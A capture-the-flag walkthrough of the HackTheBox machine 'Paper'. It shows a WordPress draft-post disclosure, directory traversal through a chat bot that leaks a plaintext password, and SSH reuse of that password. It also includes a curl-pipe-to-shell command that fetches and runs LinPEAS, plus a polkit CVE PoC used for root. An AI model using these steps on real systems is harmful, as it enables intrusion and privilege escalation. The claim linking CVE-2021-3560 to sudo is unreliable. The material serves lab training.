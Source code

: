 ```yaml
---
title: Paper
draft: false
tags:
  - hackthebox
---
```


# Enumeration

## Network Scan

I started with a network scan using nmap.

```
nmap -sC -sV 10.10.11.143
```

The open ports are 22(ssh), 80(http), and 443(https).

## Web Scan

I browsed to 10.10.11.143:80, but it was the default CentOS installation page. I then ran feroxbuster to try and find any other directories or files, but there was nothing interesting. I then tried Nikto, with

```
nikto -host http://10.10.11.143
```

and noticed an interesting header.

```
Uncommon header 'x-backend-server' found, with contents: office.paper
```

I added the following entry to `/etc/hosts` to make office.paper resolve.

```
10.10.11.143 office.paper
```

This allowed me to browse to [http://office.paper](http://office.paper), which is a WordPress website. There’s an interesting [post](http://office.paper/index.php/2021/06/19/feeling-alone/) where Nick mentions “secret content” in the drafts.

# Exploitation

WordPress has a vulnerability in versions <= 5.2.3, which allows “unauthenticated view private/draft posts”. The POC is extremely simple, you just append `static=1&orderBy=asc` to URL, like this: [http://office.paper/?static=1&orderBy=asc](http://office.paper/?static=1&orderBy=asc).

![Draft Post](static/draft_post.png)

We were able to view the drafts, and we can notice the “Secret Re
gistration URL”. All we need to do is add that to `/etc/hosts` as well:

```
10.10.11.143    office.paper
10.10.11.143    chat.office.paper
```

Browsing to the secret registration URL shows it is hosting Rocket.Chat. We can fill out the registration form to gain access to the application. There is only one channel available, `#general` which is read-only for our account. There is also a Bot account named `recyclops`, which features a couple of commands: `file <name>` and `list <dir>`. We cannot send messages, but we can direct message the Bot.

![Directory Traversal](static/dir_trav.png)

So we have directory traversal. However, we aren’t able to access `user.txt` right-away because it is owned by dwight. Maybe we can analyze the bot?

We can `list ../hubot` and there’s all the source code to the recyclops bot. However, one interesting file is file `../hubot/.env`, which contains:

```
<!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```

Trying to login to the `reclyclops` account on Rocket.Chat errors, however, we have a password and we know that `Dwight` created the bot. Let’s try to SSH into Dwight with the password found from Hubot:

```
ssh dwight@10.10.11.143
```

# Privilege Escalation

We can run the handy-dandy `LinPEAS` to find privilege escalation vectors. All we need to do is download it via curl.

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

One of the first alerts we get is that the `sudo` version is 1.8.29, which is vulnerable to CVE-2021-3560. There is a PoC for this CVE, found [here](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation). We just need to curl the `poc.sh` and run it passing our own username and password.

```
./poc.sh -u=test -p=test
su - test
sudo bash
```